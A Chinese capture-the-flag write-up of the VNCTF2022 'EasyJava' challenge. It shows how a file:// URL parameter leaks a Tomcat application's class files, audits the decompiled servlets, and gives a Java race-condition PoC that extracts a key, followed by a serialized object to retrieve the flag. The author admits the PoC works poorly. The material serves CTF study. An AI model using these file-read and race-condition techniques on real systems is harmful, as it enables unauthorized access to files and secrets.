







# VNCTF2022 公开赛(EasyJava)

题目链接：[BUUCTF](https://buuoj.cn/challenges#[VNCTF2022%E5%85%AC%E5%BC%80%E8%B5%9B]easyJava[%E5%A4%8D%E7%8E%B0])

这道题目分为两部分，第一部分是信息泄露，第二部分是Java代码审计。我个人没怎么打过 CTF对套路不太清晰，这里就一个页面直接给我看懵逼了，这里我是看的其他师傅的泄露源代码的writeup。第一次知道这样的套路，我觉得比Java代码审计都难（哭死~

下次就知道了，啥东西都没有的情况下，就f12看看，哈哈哈哈哈哈哈

## 信息泄露

f12可以看到


这里是提示在后边加file这个URI资源路径，然后可以通过?进行传参，试一下



然后提示输入一个url参数，那就是file?url=这样的格式，我看其他师傅的wp就是可以url然后跟上file协议路径直接就能读取系统里边的文件，啊这......这师傅是咋知道的.....盲猜嘛



然后最后tomcat的路径是这个：

```bash
file:///usr/local/tomcat/webapps/ROOT/WEB-INF/classes
```



跟上文件的全路径就能把文件下载下来：

```
file:///usr/local/tomcat/webapps/ROOT/WEB-INF/classes/entity/User.class
```



把classes这个文件夹中的全部路径都下载下来就行了，然后创建一个目录都放进去，然后用IDEA打开就行了，就像这样：



## 审计漏洞

分析一下这几个.class文件

```bash
.
├── controller			# 空的
├── entity							
│   └── User.class		# entity实体类
├── servlet
│   ├── FileServlet.class	# /file URI请求的servlet，也就是我们刚才用的这个file接口
│   └── HelloWorldServlet.class	# 这里的Servlet是有漏洞的，也是我们主要的分析对象
└── util
	├── Secr3t.class		# 工具类：包含关键字段key、getFlag() 等关键方法		
	├── SerAndDe.class		# 字节数组序列化/反序列化类：Serialize、DeSerialize
	└── UrlUtil.class		# URL工具类：把传入的url参数通过文件输出流输出出来，也是上一阶段中信息泄露的关键方法
```

### User.class

````java
package entity;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class User implements Serializable {
    private String name;
    private String age;
    private transient String height;

    public User(String name, String age, String height) {
        this.name = name;
        this.age = age;
        this.height = height;
    }
	// 这里省略一堆getter、setter方法
    ......
    private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        // height字段是transient修饰的，可以叫做"瞬态字段"，瞬态字段默认不参与序列化/反序列化，所以这里在反序列化的时候需要单独对瞬态字段做处理，这样才能把height的值反序列化出来
        this.height = (String)s.readObject();
        
    }

    public boolean equals(Object obj) {
        // 对比两个User对象是否相等
        ......
    }
	// 就是普通的toString方法
    public String toString() {
        ......
    }
}
````

上边的标注已经很详细了，这里的User本质上就是个entity实体类，单看这一个类就没啥用，需要结合其他类一起看。

还是先看Servlet吧，毕竟参数的 "入口点" 才是我们最需要关注的，所有的攻击一定都是从 "入口点" 进行展开的。

### FileServlet.class

代码如下：

```java
package servlet;

import java.io.IOException;
import java.io.InputStream;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.tomcat.util.http.fileupload.IOUtils;
import util.UrlUtil;

// 该Servlet的uri路径是/file，也就是/file的请求接口
@WebServlet(
    name = "FileServlet",
    urlPatterns = {"/file"}
)
public class FileServlet extends HttpServlet {
    public FileServlet() {
    }
	// 提供了一个get方法，允许接收一个url参数
    // * 当url参数为空时：返回提示词(please input a url)
    // * 当url参数不为空时：调用UrlUtil.visit方法，然后得到一个输入流，从该输入流中读取内容然后通过HttpServletResponse的输出流响应回去
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String url = req.getParameter("url");
        if (url != null) {
            InputStream responseContent = null;

            try {
                responseContent = UrlUtil.visit(url);
                IOUtils.copy(responseContent, resp.getOutputStream());
                resp.flushBuffer();
            } catch (Exception var9) {
                var9.printStackTrace();
            } finally {
                responseContent.close();
            }
        } else {
            this.Response(resp, "please input a url");
        }
    }
	// String消息走HttpServletResponse输出流进行响应
    private void Response(HttpServletResponse resp, String outStr) throws IOException {
        ServletOutputStream out = resp.getOutputStream();
        out.write(outStr.getBytes());
        out.flush();
        out.close();
    }
}
```

### HelloWorldServlet.class

```java
package servlet;

import entity.User;
import java.io.IOException;
import java.util.Base64;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import util.Secr3t;
import util.SerAndDe;

// 该Servlet的uri路径是/evi1，其实名字已经告诉我们要攻击的就是这个了（笑死，这么直白啊
@WebServlet(
    name = "HelloServlet",
    urlPatterns = {"/evi1"}
)
public class HelloWorldServlet extends HttpServlet {
    // 注意这里的volatile关键字
    // volatile:
    // 可见性保证：volatile 关键字保证了 变量的可见性，即当一个线程修改了被 volatile 修饰的变量，其他线程能立刻看到最新的值。
    // 禁止指令重排序：volatile 保证了变量的 有序性，防止编译器或 CPU 对代码进行重排序优化，从而破坏程序的正确执行。
    // volatile 是 Java 内存模型（JMM） 的一部分，它通过刷新缓存和使用内存屏障来保证变量在多个线程之间的可见性和顺序性。
    private volatile String name = "m4n_q1u_666";
    private volatile String age = "666";
    private volatile String height = "180";
    User user;

    public HelloWorldServlet() {
    }
    // 这里有一些师傅写的博客犯错了，他们认为new User(this.name, this.age, this.height);是一个传递引用的过程，所以他们最终生成的poc代码是不好使的。
	// 初始化方法，在这里初始化了一个User对象
    // User user = new User(this.name, this.age, this.height);
    // 此时user的值是： name="m4n_q1u_666",age="666",height="180"(注意，这里的值是从HelloWorldServlet的字段中发生的拷贝操作)
    // 那么我此时修改HelloWorldServlet.name这个字段的值，其实User user中的值并不会发生修改
    public void init() throws ServletException {
        this.user = new User(this.name, this.age, this.height);
    }
	// get方法
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        // 获取name参数
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }
		// 调用Secr3t.check方法检查name参数，如果检查通过则返回 "no vnctf2022!"
        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            // 这个地方很好玩，逻辑自相矛盾
            // 如果想进这个if中必须满足以下条件：
            //     第一次调用Secr3t.check为false
            // 	   第二次调用Secr3t.check为true
            if (Secr3t.check(this.name)) {
                // 如果能进入到当前if中，就会调用Secr3t.getKey方法，然后就会把Key响应回客户端
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }

    // 这里还有一个post方法
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        // 从请求中获取到key和base64参数
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        // 如果Secr3t中的key和传入的key是相同的并且base64字符串不是空的
        if (Secr3t.getKey().equals(key) && text != null) {
            // 通过base64解码base64字段，从中解出byte[]数组
            Base64.Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            // 然后调用SerAndDe中的反序列化方法，最终得到一个User对象
            User u = (User)SerAndDe.deserialize(textByte);
            // 如果当前User中的user和传入的User是同一个，那么就调用Secr3t的getFlag方法并响应
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }

    private void Response(HttpServletResponse resp, String outStr) throws IOException {
        ServletOutputStream out = resp.getOutputStream();
        out.write(outStr.getBytes());
        out.flush();
        out.close();
    }
}
```

OK，看了一圈，好像最重要的类就是Secr3t了，其次就是SerAndDe了，分别看一下：

### Secr3t.class

```java
package util;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import org.apache.commons.lang3.RandomStringUtils;

public class Secr3t {
    // 生成一个32位的随机字母、数字字符串
    private static final String Key = RandomStringUtils.randomAlphanumeric(32);
    private static StringBuffer Flag;

    private Secr3t() {
    }
	// 把生成的32位随机字符串返回
    public static String getKey() {
        return Key;
    }
	// 获取Flag
    public static StringBuffer getFlag() {
        Flag = new StringBuffer();
        InputStream in = null;

        try {
            // 这里是一个执行readFlag的方法，没啥看的，最终就是要执行到这里才能拿到flag
            in = Runtime.getRuntime().exec("/readflag").getInputStream();
        } catch (IOException var12) {
            var12.printStackTrace();
        }
        // 这里还做了一些额外操作
		......
        return Flag;
    }
	// 检查方法，如果输入的String是vnctf2022的话就返回true，否则的话就返回false
    public static boolean check(String checkStr) {
        return "vnctf2022".equals(checkStr);
    }
}
```

看完这个.class大概能明白是咋回事了，但是不急，先接着把代码看完吧

### SerAndDe.class

其实就是一个很尝贵的Java对象序列化字节数组的操作，Java原生提供了这样的功能，我也写过一个小的工具类，包含了这个功能，参考：[Java类转字节码工具](https://github.com/Erosion2020/JavaSec/blob/main/B - 反序列化/Java类转字节码工具/main.md)

```java
package util;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class SerAndDe {
    private SerAndDe() {
    }
	// 把一个对象序列化成byte[]字节数组，就是很常规的Java操作
    public static byte[] serialize(Object object) {
        ......
    }
	// 把字节数组序列化成一个Object对象
    public static Object deserialize(byte[] bytes) {
        ......
}
```

### UrlUtil.class

这个类就非常简单了，这个类其实就是前边咱们做信息泄露源码的时候用到的，做的就是url参数的处理

```java
package util;

import java.io.InputStream;
import java.net.URL;

public class UrlUtil {
    private UrlUtil() {
    }
	// 根据url参数读取本地file路径并转成输入流
    public static InputStream visit(String url) throws Exception {
        URL file = new URL(url);
        InputStream inputStream = file.openStream();
        return inputStream;
    }
}
```

## 分析整体思路

```bash
信息泄露: 
	/file?url=file:/// 来泄露对应的文件
漏洞触发:
	1. GET /evi1?name=x	// 但需要让name既等于vnctf2022又不等于vnctf2022，然后可以拿到一个key
	2. POST /evil
        key=泄露出来的key值
        base64=byte[]{User("m4n_q1u_666", "666", "180")}
        
总结：
   1. 泄露key
   2. 拿着key去反序列化getFlag
```

想拿到key有两种办法

1. 通过`GET /evi1?name=x`绕过
2. 爆破key，但是key是一个32位的字符串，大概需要爆破 36 ^ 32这么多次（我滴妈，太离谱了，还是得泄露

但是上边也提到了想要泄露的话就需要同时满足name既等于vnctf2022又不等于vnctf2022这两个条件

### 线程不安全的servlet

这其实是个Servlet的线程安全问题，大概逻辑是这样的(不止是Servlet哦，在Springboot的概念中的Controller默认也是单例模式，和Servlet一样)：

Servlet默认是单例的，所以在Servlet中的this.name字段也是只有一个，这时候多个线程对name字段进行修改时，就会触发线程安全问题。

```
 |		         HelloWorldServlet             |
 ---------------this.name(m4n_q1u_666)-----------
        线程A(name=erosion2020)			线程B(name=vnctf2022)				 this.name变化
     	|                          					|				  		m4n_q1u_666 
name != null,所以this.name修改为erosion2020			 |				   		 erosion2020
         | 							线程B进场(vnctf2020)，触发name!=null   	vnctf2022
第一个Secr3t.check=false         					  |					   	   vnctf2022
         |         					              ......  				   	  vnctf2022
进入第二个if，此时的this.name=vnctf2020，满足条件     ......  				   	vnctf2022  
         |          							 ......  				   	 vnctf2022  
    调用getKey方法
         |
      回显key
```

但是程序内部的逻辑是很难精准命中我们想要的上述逻辑的，所以这时候就需要多搞几个线程不断去尝试，这样才能试出来。

## POC

用Java写一份代码吧，其实用python发送http请求会更简单一些，但是python无法完成Java序列化过程。

想要正好触发线程安全的逻辑，其实真看脸，下边的代码可能多跑几次才能跑出来key，我用的是buuoj平台做的题，把靶机跑崩了好几次（笑哭~

```java
package ctfs.vnctf2022.easyjava;

import utils.JavaClassByteUtil;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.concurrent.CountDownLatch;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.regex.Matcher;
import java.util.regex.Pattern;

public class Exp {

    public static void main(String[] args) throws Exception {
        Exp exp = new Exp();
        String ctfKey = exp.getCTFKey();
        User user = new User("m4n_q1u_666", "666", "180");
        String base64 = JavaClassByteUtil.object2Base64Str(user);
        System.out.println("构造攻击payload: key=" + ctfKey + "&" + "base64=" + base64);
    }

    private volatile boolean notFoundKey = true;
    private volatile String key = null;
    private String getCTFKey() throws InterruptedException {
        String URL = "http://89461698-857c-47bb-b7f2-2fd27788ff61.node5.buuoj.cn:81/evi1";
        String PAYLOAD1 = "?name=vnctf2022";
        String PAYLOAD2 = "?name=erosion2020";
        int THREAD_COUNT = 6; // 3个线程用于 payload1，3个线程用于 payload2
        ExecutorService executorService = Executors.newFixedThreadPool(THREAD_COUNT);
        CountDownLatch latch = new CountDownLatch(THREAD_COUNT);
        for (int i = 0; i < 3; i++) {
            executorService.submit(() -> getCTFKey(URL + PAYLOAD1));
        }
        for (int i = 0; i < 3; i++) {
            executorService.submit(() -> getCTFKey(URL + PAYLOAD2));
        }
        latch.await();
        executorService.shutdown();
        return key;
    }
    private void getCTFKey(String fullUrl){
        try {
            while (notFoundKey) {
                URL url = new URL(fullUrl);
                HttpURLConnection conn = (HttpURLConnection) url.openConnection();
                conn.setRequestMethod("GET");

                int responseCode = conn.getResponseCode();
                BufferedReader in = new BufferedReader(new InputStreamReader(conn.getInputStream()));
                String inputLine;
                StringBuilder response = new StringBuilder();

                while ((inputLine = in.readLine()) != null) {
                    response.append(inputLine);
                }
                in.close();
                // 检查是否包含关键字 "key"
                if (response.toString().contains("Key")) {
                    System.out.println("Found key: " + response);
                    // 使用正则表达式匹配 key 内容
                    Pattern pattern = Pattern.compile("The Key is (.+)");
                    Matcher matcher = pattern.matcher(response);
                    if (matcher.find()) {
                        notFoundKey = false;
                        key = matcher.group(1); // 提取出括号中的内容;
                        System.out.println("提取Key: " + key);
                        return;
                    }
                }
                // 休眠100毫秒，类似于 Python 的 time.sleep(0.1)
                Thread.sleep(100);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        throw new RuntimeException("Not found Key......");
    }
}
```

emmmmm，好像写的代码不是那么好使，额，反正大概就是那么个意思，最后大家手动拼接一下payload吧。



buu里边的这个题目环境有点问题，可能是docker容器运行的原因吧，很多时候打的时候有问题，一直爆不出来key，或者是正确的base64但是无法回显key，emmm.......我也没啥好的解决方法，我就是多重启这个题目的容器，打不通就重启。

